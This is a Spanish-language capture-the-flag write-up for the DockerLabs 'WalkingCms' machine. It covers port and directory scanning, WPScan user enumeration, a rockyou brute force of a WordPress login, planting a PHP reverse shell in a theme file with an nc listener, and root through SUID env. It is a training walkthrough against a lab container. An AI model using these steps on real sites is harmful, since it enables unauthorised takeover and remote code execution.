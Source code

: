 ```yaml
---
title: WalkingCms Writeup - DockerLabs
date: 2024-08-09
categories: [WriteUps, DockerLabs]
tags: [Linux, Easy, DockerLabs]
img_path: /assets/img/dck/walking_cms/
image: /assets/img/dck/walking_cms/walking_cms.png
---
```


## Reconocimiento

Empezamos realizando un escaneo a la máquina objetivo con nmap, para ver que puertos tiene abiertos.

```bash
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
_______________________________________________________________________
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack ttl 64
```

---
Tiene abierto el puerto 80, ahora procedemos a lanzar un conjunto de script básicos  y a verificar su versión.

```bash
nmap -sCV -p80 172.17.0.2 -oN targeted
_______________________________________________________________________
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-server-header: Apache/2.4.57 (Debian)
|_http-title: Apache2 Debian Default Page: It works
```

## Enumeración

---
Está corriendo el servicio de Apache, y no vemos nada más que sea relevante. Así que aplicaremos Fuzzing con Gobuster para descubrir directorios y archivos.

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 200 -x php,html,txt,sh
_______________________________________________________________________
/index.html           (Status: 200) [Size: 10701]
/wordpress            (Status: 301) [Size: 312]
/server-status        (Status: 403) [Size: 275]
```
---
Gobuster nos reporto el directorio /wordpress, así que entramos a la página y de primera vista no notamos nada interesante.

![walking_cms-1](/assets/img/dck/walking_cms/walking_cms-1.png)

---
Como se trata de un WordPress, utilizaremos WPScan para enumerar usuarios válidos y plugins instalados junto con sus versiones.
```bash
wpscan --url http://172.17.0.2/wordpress/ --enumerate u,vp 
_______________________________________________________________________
[i] User(s) Identified:

[+] mario
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://172.17.0.2/wordpress/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
```

## Explotación

---
Nos encontró al usuario mario, y podemos aprovechar la herramienta de WPScan para realizar un ataque de fuerza bruta.

```bash
wpscan --url http://172.17.0.2/wordpress/ -U mario -P /usr/share/wordlists/rockyou.txt
_______________________________________________________________________
[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - mario / love
Trying mario / badboy Time: 00:00:04 <

[!] Valid Combinations Found:
 | Username: mario, Password: love
```
---
Obtenemos la contraseña del usuario mario, pero debemos conocer el panel de login, así que volvemos a hacer fuzzing con gobuster al directorio de wordpress.

```bash
gobuster dir -u http://172.17.0.2/wordpress/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php,txt,html
_______________________________________________________________________
/wp-content           (Status: 301) [Size: 323]
/wp-login.php         (Status: 200) [Size: 6580]
/wp-includes          (Status: 301) [Size: 324]
/wp-trackback.php     (Status: 200) [Size: 136]
/wp-admin             (Status: 301) [Size: 321]
/xmlrpc.php           (Status: 405) [Size: 42]
/wp-signup.php        (Status: 302) [Size: 0]
```
---
Nos dirigimos a la página web, en el directorio /wordpress/wp-admin y utilizamos las credenciales para loguearnos.

![walking_cms-2](/assets/img/dck/walking_cms/walking_cms-2.png)

---
Tenemos acceso al panel de wordpress como administrador, así que nos dirigimos a Theme Editor para modificar el index.php.

![walking_cms-3](/assets/img/dck/walking_cms/walking_cms-3.png)

---
Reemplazamos todo lo que aparece, por una Reverse Shell en PHP de Pentestmonkey, especificando nuestra IP de atacante y el puerto. Y le damos a Update File.

![walking_cms-4](/assets/img/dck/walking_cms/walking_cms-4.png)

---
Nos ponemos en escucha en el puerto 443, ya que ese fue el puerto que especificamos.

```bash
nc -lvnp 443
_______________________________________________________________________
listening on [any] 443 ...
```

Luego nos dirigimos al navegador y entramos a esta página donde fue que modificamos para tener una Reverse Shell.

```css
http://172.17.0.2/wordpress/wp-content/themes/twentytwentytwo/index.php
```

---
Logramos obtener acceso a la máquina objetivo.

```bash
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 45834
Linux 48e833747d49 6.8.11-amd64
 05:36:34 up  1:51,  0 user,  load average: 0.93, 0.63, 0.50
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
_______________________________________________________________________
www-data@48e833747d49:/$
```

Ahora haremos un Tratamiento de la TTY para poder trabajar cómodamente por la consola.

```bash
script /dev/null -c bash
# Presionamos "Control + Z"
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 41 columns 183
```

## Escalada de Privilegios

---
Ahora si vamos con la escalada de privilegios. Buscamos binarios con permisos SUID.

```bash
www-data@48e833747d49:/$ find / -perm -4000 2>/dev/null | xargs ls -l
_______________________________________________________________________
-rwsr-xr-x 1 root root 62672 Mar 23  2023 /usr/bin/chfn
-rwsr-xr-x 1 root root 52880 Mar 23  2023 /usr/bin/chsh
-rwsr-xr-x 1 root root 48536 Sep 20  2022 /usr/bin/env
-rwsr-xr-x 1 root root 88496 Mar 23  2023 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 59704 Mar 23  2023 /usr/bin/mount
-rwsr-xr-x 1 root root 48896 Mar 23  2023 /usr/bin/newgrp
-rwsr-xr-x 1 root root 68248 Mar 23  2023 /usr/bin/passwd
-rwsr-xr-x 1 root root 72000 Mar 23  2023 /usr/bin/su
-rwsr-xr-x 1 root root 35128 Mar 23  2023 /usr/bin/umount
```

---
Vemos que el binario /usr/bin/env tiene permisos SUID, y podemos utilizarlo con ayuda de GTFOBins para obtener una shell como root y logramos terminar la máquina.

```bash
www-data@48e833747d49:/$ ./usr/bin/env /bin/bash -p
bash-5.2# whoami
_______________________________________________________________________
root
```
